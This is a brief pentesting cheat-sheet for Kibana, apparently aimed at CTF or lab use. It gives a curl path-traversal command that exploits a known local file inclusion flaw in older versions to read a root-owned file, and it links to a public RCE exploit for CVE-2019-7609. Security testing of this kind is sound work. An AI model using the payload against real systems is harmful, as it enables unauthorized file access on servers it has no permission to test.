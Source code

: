```yaml
---
title: Kibana Pentesting
description: A proprietary data visualization dashboard software for Elasticsearch. A default port is 5601.
tags:
    - Web
refs:
date: 2022-12-22
draft: false
---
```


## Vulnerabilities

### Local File Inclusion (LFI) Version \< 6.4.3 & 5.6.13

```sh
curl http://<target-ip>:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../root.txt
```

### Remote Code Execution (RCE) Version \< 6.6.0

Reference: [https://github.com/mpgn/CVE-2019-7609](https://github.com/mpgn/CVE-2019-7609)
